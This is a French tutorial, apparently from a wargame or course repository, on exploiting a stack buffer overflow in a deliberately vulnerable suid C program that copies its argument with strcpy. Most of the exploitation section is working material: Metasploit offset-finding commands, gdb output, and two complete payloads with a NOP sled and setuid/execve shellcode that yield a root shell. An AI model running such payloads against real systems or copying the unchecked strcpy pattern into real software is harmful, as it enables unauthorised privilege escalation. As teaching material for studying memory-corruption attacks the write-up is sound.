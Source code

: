 # Le Stack Overflow

## I. Introduction
Le Stack Overflow consiste à utiliser une faille applicative pour écrire en mémoire et détourner le flow du programme. Nous allons par exemple tenter ici de faire executer un shell root à un programme suid lambda.

## II. Pré-requis
* Un programme suid
* Un code permettant le buffer overflow

Soit le programme `vuln` suivant :
```{r, engine='C'}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void copy(char *arg)
{
	char msg[256];
	strcpy(msg,arg);
    printf("Votre argument est : %s\n",msg);
}

int main(int argc, char **argv)
{
	copy(argv[1]);
	return 0;
}
```

## III. La faille
Ce programme permet le Stack Overflow puisque l'input utilisateur n'est controlé à aucun moment et que `strcpy()` se contente de copier bêtement l'input dans la variable `msg`. Ainsi on peut écrire dans la mémoire.  
L'idée va être d'écrire le retour de notre programme vulnérable pour le faire executer notre shellcode.

## IV. Exploitation

### On détermine l'offset de l'adresse de retour
Pour cela, on génère on suite de caractère unique sur kali :
```{r, engine='bash'}
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```
On execute notre programme vulnérable sous le debugger `gdb`
```{r, engine='bash'}
aas@ubuntu:~$ gdb -q ./vuln
Reading symbols from /wargame/medium/level1/level...(no debugging symbols found)...done.
gdb$ r $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9'")
Votre argument est : Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

Program received signal SIGSEGV, Segmentation fault.
Cannot access memory at address 0x6a413969
0x6a413969 in ?? ()
```
Kali va maintenant nous dire à l'octet prêt là où nous pouvons réécrire l'adresse de retour
```{r, engine='bash'}
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb $(ruby -e 'print "\x6a\x41\x39\x69".reverse')
[*] Exact match at offset 268
```
Sans cette technique, il aurait fallu procéder par dicotomie jusqu'à tomber sur le bon offset.

### Détournement du programme
Plusieurs solutions existent ici, nous verrons les deux plus simples : exploitation à l'aide de l'environnement, et exploitation directe (ce sont des termes maison hein :p)

#### 1. A l'aide de l'environnement
Nous commençons par stocké notre shellcode précédé d'une floppé de NOP afin de se laisser une marge :

```{r, engine='bash'}
aas@ubuntu:~$ export SC=$(python -c "print '\x90'*100+'\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80'")
```

Nous récupérons l'adresse de notre variable SC grâce au programme suivant :

```{r, engine='bash'}
#include <stdio.h>
aas@ubuntu:~$ cat get_env
void main()
{
        printf("ad: 0x%lx\n", getenv("SC"));
}
aas@ubuntu:~$ ./get_env
ad: 0xbffffed3
```
Nous devons donc écraser l'adresse de retour avec l'adresse de notre variable SC : 0xbffffed3
```{r, engine='bash'}
aas@ubuntu:~$ ./vuln $(python -c "print 'A'*268 + '\xd3\xfe\xff\xbf'")
# whoami
root
```

#### 2. Par exploitation directe
Lorsque le buffer est assez grand, nous pouvons tout faire rentrer et l'utilisation de l'environnement n'est pas nécéssaire.  
Le principe est toujours d'écraser l'adresse de retour pour la faire pointer dans nos NOP. Il faut donc récupérer une adresse pointant sur nos NOP.
```{r, engine='bash'}
aas@ubuntu:~$ gdb -q ./vuln
Reading symbols from /wargame/medium/level1/level...(no debugging symbols found)...done.
gdb$ r $(python -c "print 'A'*184 + '\x90'*50 + '\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80' + 'AAAA'")
0xbffffec0:	0x2d465455	0x494c0038	0x3d53454e	0x53003133
0xbffffed0:	0x90903d43	0x90909090	0x90909090	0x90909090
0xbffffee0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffef0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff00:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff10:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff20:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff30:	0x90909090	0x316a9090	0x80cd9958	0xc189c389
0xbfffff40:	0xcd58466a	0x520bb080	0x732f6e68	0x2f2f6868
0xbfffff50:	0xe3896962	0x80cdd189	0x53494800	0x4e4f4354
0xbfffff60:	0x4c4f5254	0x6e67693d	0x6265726f	0x0068746f
0xbfffff70:	0x454d4f48	0x61772f3d	0x6d616772	0x656d2f65
```
On voit nos NOP (\x90). Il suffit de choisir une adresse d'un NOP au milieu de la floppé pour se laisser de la marge. Disons l'adresse `0xbfffff10`. Il nous suffit maintenant de remplacer les AAAA par cette adresse et le tour est joué.
```{r, engine='bash'}
aas@ubuntu:~$ ./vuln $(python -c "print 'A'*184 + '\x90'*50 + '\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80' + '\x10\xff\xff\xbf'")
# whoami
root
```

## V. Sécurisation
Aujourd'hui, les kernels sont patchés contre ce problème. L'ASLR palie à ce problème.
